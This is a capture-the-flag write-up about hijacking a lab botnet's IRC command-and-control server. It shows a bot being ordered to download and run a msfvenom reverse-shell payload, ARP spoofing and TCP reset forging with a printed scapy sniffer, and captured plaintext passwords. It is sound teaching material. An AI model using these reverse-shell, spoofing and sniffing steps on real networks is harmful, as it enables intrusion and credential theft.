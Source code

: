 A few seconds after running this script, the client attempts to reconnect and we can grab the password command: `PASS underling`. I also noticed `JOIN #void`. So now, let's connect to the server and see what is going on in that channel.
![image](https://user-images.githubusercontent.com/1517255/53304498-52535480-3876-11e9-8834-8160be8e07d5.png)
This looks like a botnet C&C server, and the file from the payload URL is an ELF binary, perhaps we could send our own one instead? But first, lets look at who is connected
```
20:54 -!-      #void krzys_h   H   0  krzys_h@172.30.0.14 [krzys_h]
20:54 -!-      #void imp63a3   H   0  imp@172.30.0.2 [imp63a3]
20:54 -!-      #void impac66   H   0  imp@172.30.20.3 [impac66]
20:54 -!-      #void lordbaal  H*@ 0  eugene@172.30.20.2 [baal]
20:54 -!- End of /WHO list
```
We see two connected bots and *lordbaal* who seems to be the botnet owner. He is both channel operator (@) and server operator (*), so we are obviously going after him. Let's see some more info about him:
```
20:59 -!- lordbaal [eugene@172.30.20.2]
20:59 -!-  ircname  : baal
20:59 -!-  channels : @#sanctum @#void
20:59 -!-  server   : irc.hades.naum [Hades IRC server]
20:59 -!-           : Dark Lord of Hades
20:59 -!-  idle     : 0 days 0 hours 0 mins 1 secs [signon: Sun Feb 24 20:25:41 2019]
20:59 -!- End of WHOIS
```
Oh, another channel! Join it, maybe?
```
20:59 -!- #sanctum Cannot join channel (Only lords may enter the sanctum!)
```
Nah, the challenge wouldn't be classified as hard if it was that easy. Maybe we should "become a lord" by simply changing our username to be prefixed with "lord"?
```
21:01 -!- lordkrzys Only the chosen may adopt the title of lord!
```
Okay, I'm out of easy tricks. Let's try to intercept lordbaal's connection somehow. The problem is, he is in another network and ARP spoofing works only on the LAN - but luckily, while we are in a different network, one of the bots (impac66) seems to be on the LAN with the admin! Let's try to hack him first by following the format of payload commands.
```
21:04 < krzys_h> +impac66, payload http://172.30.0.14/my_reverse_shell_payload
21:04 < impac66> krzys_h, running...
```
where my_reverse_shell_payload was generated with `msfvenom -p linux/x64/shell_reverse_tcp LHOST=172.30.0.14 LPORT=1234 -f elf`

After we got a shell, we have to repeat the process of killing the connection and sniffing we did in the first part... but on a remote computer using a dumb netcat shell. There was no arpspoof installed, but luckily scapy was so we could use that. I used the script from https://medium.com/@ismailakkila/black-hat-python-arp-cache-poisoning-with-scapy-7cb1d8b9d242 for the ARP spoofing part, and the previous one for forging RST. At the end I appended something to dump all traffic after sending the RST packet into the terminal:
```python
def on_packet(t):
    t.show()

sniff(iface="eth0", count=1000, lfilter=lambda x: x.haslayer(TCP) and (x[IP].src == "172.30.20.2" or x[IP].dst == "172.30.20.2"), prn=on_packet)
```
By doing this, we can capture admin's login:
```
PASS suckitinnotech
:irc.hades.naum NOTICE * :*** Looking up your hostname
NICK baal
:irc.hades.naum NOTICE * :*** Your hostname contains illegal characters, ignoring hostname
USER eugene 0 * :baal
:irc.hades.naum NOTICE baal :*** You are exempt from resvs
```